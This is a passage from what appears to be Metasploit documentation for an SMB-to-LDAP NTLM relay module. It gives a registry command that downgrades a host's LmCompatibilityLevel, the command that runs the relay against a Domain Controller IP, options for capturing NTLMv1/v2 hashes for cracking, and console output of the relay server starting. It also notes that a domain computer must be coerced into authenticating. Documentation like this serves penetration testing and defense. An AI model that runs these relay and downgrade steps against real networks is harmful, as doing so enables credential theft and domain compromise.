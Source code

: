 ```
PS > reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -v LmCompatibilityLevel /t REG_DWORD /d 0x2 /f
```

```
PS > reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -v LmCompatibilityLevel

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    LmCompatibilityLevel    REG_DWORD    0x2
```

Finally run the relay server on msfconsole, setting the `RELAY_TARGETS` option
to the Domain Controller IP address.

```
run verbose=true RELAY_TARGETS=192.168.232.110
```

You will have to coerce the Domain Computer and force it to authenticate to the
msfconsole server (see an example below).


## Options

### RELAY_TARGETS

Target address range or CIDR identifier to relay to.

### CAINPWFILE

A file to store Cain & Abel formatted captured hashes in. Only supports NTLMv1 Hashes.

### JOHNPWFILE

A file to store John the Ripper formatted hashes in. NTLMv1 and NTLMv2 hashes
will be stored in separate files.
I.E. the filename john will produce two files, `john_netntlm` and `john_netntlmv2`.

### RELAY_TIMEOUT

Seconds that the relay socket will wait for a response after the client has
initiated communication (default 25 sec.).

### SMBDomain

The domain name used during SMB exchange.


## Scenarios

### Start the relay server
```
msf6 > use auxiliary/server/relay/smb_to_ldap
msf6 auxiliary(server/relay/smb_to_ldap) > run verbose=true RELAY_TARGETS=192.168.232.110
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/relay/smb_to_ldap) >
[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.

msf6 auxiliary(server/relay/smb_to_ldap) > _servicemanager
Services
========

 Id  Name                                                              References
 --  ----                                                              ----------
 0   Msf::Exploit::Remote::SMB::RelayServer::SMBRelayServer0.0.0.0445  2
```